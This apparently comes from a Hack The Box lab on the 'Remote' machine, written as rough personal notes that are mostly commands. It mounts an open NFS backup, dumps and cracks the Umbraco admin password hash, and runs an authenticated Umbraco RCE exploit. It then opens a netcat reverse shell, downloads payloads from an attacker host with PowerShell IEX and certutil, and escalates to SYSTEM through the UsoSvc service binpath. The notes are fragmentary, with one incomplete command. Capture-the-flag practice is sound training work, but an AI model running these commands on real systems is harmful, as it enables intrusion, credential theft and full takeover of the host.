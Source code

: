 # Remote

nmap -sC -sV 10.10.10.180

see anonyous ftp login available, nothing there



root@kali:~# showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)


root@kali:~# mkdir share
root@kali:~# sudo mount -t nfs 10.10.10.180:/site_backups ~/share

tree ~/share

strings Web.config

                <add key="umbracoConfigurationStatus" value="7.12.4" />



strings Umbraco.sdf

users found ssmith and admin

adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f

use crackstation
baconandcheese for admin


ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32


http://10.10.10.180/umbraco/#/content

sign in as admin@htb.local, baconandcheese

umbraco cve?

root@kali:~/Downloads/tools/Umbraco-RCE# python3 exploit.py -u 'admin@htb.local' -p 'baconandcheese' -i 'http://10.10.10.180' -c 'whoami'
iis apppool\defaultapppool


host shell on https server
use umbraco-rce and take file, run
listen back to netcat port 4444


e1f59fd6e3d84a858994692447bf9bf3

python3 exploit.py -u 'admin@htb.local' -p 'baconandcheese' -i 'http://10.10.10.180' -c 'cmd.exe'



sign in as admin@htb.local, baconandcheese


{ string cmd = "/c c:/windows/temp/nc.exe 10.10.15.222 4442 -e cmd.exe";


IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.222:8000/myway.exe')


python3 CMSexploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.222:8000/myway.exe')"
'
(new-object System.Net.WebClient).DownloadFile('http://10.10.15.222:8000/myway.exe')

python3 CMSexploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a "(new-object System.Net.WebClient).DownloadFile('http://10.10.15.222:8000/myway.exe')"

python3 CMSexploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a 

look around to find media/1033/myway.exe


python3 CMSexploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a 'C:/inetpub/wwwroot/Media/1033/myway.exe'



root

certutil -urlcache -split -f http://10.10.15.222:8000/myway.exe c:/windows/temp/myway.exe

certutil -urlcache -split -f http://10.10.15.222:8000/root.exe c:/windows/temp/root.exe

sc config usosvc binpath="c:\windows\temp\root.exe"

sc stop usosvc
sc start usosvc